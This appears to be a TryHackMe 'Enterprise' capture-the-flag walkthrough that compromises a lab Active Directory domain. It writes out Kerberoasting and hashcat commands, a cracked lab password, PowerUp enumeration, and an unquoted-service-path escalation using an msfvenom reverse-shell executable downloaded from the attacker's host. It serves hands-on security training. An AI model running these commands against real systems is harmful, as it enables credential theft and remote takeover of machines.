

enterprise
THM: Enterprise
Enumeration
Rustscan & Nmap:
SMB Enumeration
We got 2 files RSA-Secured-Credentials.xlsx & RSA-Secured-Document-PII.docx
However, both were password protected.
So we need some other avenue for initial entry.
Website Enumeration
From nmap scan we can see a webserver is running on port 7990.
The following is the server.
We can’t do much on this site, but there is a note that the company is moving to “Github”!
We google “Enterprise-THM”
There one repository along with one user in the People tab.
It leads us to a Enterprise-THM employee: “Nik-enterprise-dev”
This user has 1 folder mgmtScript.ps1 containing a file SystemInfo.ps1
The updated file is clean.

However, he did a big mistake and pushed the script with his credentials. He tried to remove his mistake and pushed the file again with deleted credentials. But hey! Who can know that Github saves the history of a file? ;)
Click on History & open the initial created file.
We got a set of credentials. We will use this to enumerate the Domain controller.
Domain Controller Enumeration
We will use ldapdomaindump to get information about the Domain controller.
ldapdomaindump 10.10.105.25 -u 'LAB.ENTERPRISE.THM\nik' -p <PASSWORD>
Lets check the domain_users.html file for user info.
We can see that the user nik doesn't have rdp access. Infact, only the user BitBucker has RDP access as he is in the Remote Desktop Users group.
Foothold
Using nik account we try to get a ticket for a “Service Principal Name”. (Impacket-toolkit)
impacket-GetUserSPNs -dc-ip 10.10.105.25 'LAB.ENTERPRISE.THM/nik:<PASSWORD>'
The output revealed that we have an SPN account, svc-user. Once we find the SPN user, we can send a single request to get a TGS ticket for the bitbucket user using the -request argument to reuest for all users or -request-user argument to specify a particular user
impacket-GetUserSPNs -dc-ip 10.10.105.25 'LAB.ENTERPRISE.THM/nik:<PASSWORD>' -request

We copy the hash to a file & crack it using hashcat.
hashcat -m 13100 bitbucket_hash /usr/share/wordlists/rockyou.txt
Now, we use xfreerdp to login as bitbucket user & get the userflag on the desktop.
xfreerdp /dynamic-resolution +clipboard /cert:ignore /scale:140 /v:10.10.105.25 /u:bitbucket /p:'littleredbucket'
Privilege Escalation
We host PowerUp.ps1 in our local kali machine using python. Then download it on the target machine using wget & run it,
wget http://10.11.9.100/PowerUp.ps1 -O PowerUp.ps1
. .\PowerUp.ps1
Invoke-AllChecks
We can see, we got unquoted service path above.
This means the Path of this Executable is:
C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
instead of the safe variant:
“C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe”
Now lets check wrtie permission in the folder: C:\Program Files (x86)\Zero Tier using ICACLS
icacls.exe “C:\Program Files (x86)\Zero Tier”
As we can see BUILTIN\Users have write W permission in the directory.
Next, I checked for the service that is using this path. It was zerotieroneservice
I checked the running privileges of the service & as we can see, it will be running with administrative privileges.
sc.exe qc zerotieroneservice
Next, we checked if the service if running. (The service is stopped)
sc.exe query zerotieroneservice
Next, I need to check whether we can start the service with the current account using a tool called accesschk64.exe which i uploaded to the target machine.
.\accesschk64.exe -qlcv zerotieroneservice

Thus, it confirms that our user can start/stop this service.
With all things in place we begin the exploit. We will create a reverse shell windows executible using msfvenom with the name Zero & put it in the C:\Program Files (x86)\Zero Tier directory. Next, will setup listener on kali machine & start the service to get the reverse shell as administrator.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.9.100 LPORT=8888 -f exe -o Zero.exe
On Target Machine after hosting in python webserver.
wget http://10.11.9.100/Zero.exe -O 'C:\Program Files (x86)\Zero Tier\Zero.exe'
We upload it to the machine & place in the specified folder mentioned above. Then we start listner on kali machine.
Finally, we run the serive using the following.
sc.exe start zerotieroneservice
Then, back in our listner we have our reverse connection.
We get the root flag in the Administrator's desktop.
Thanks!!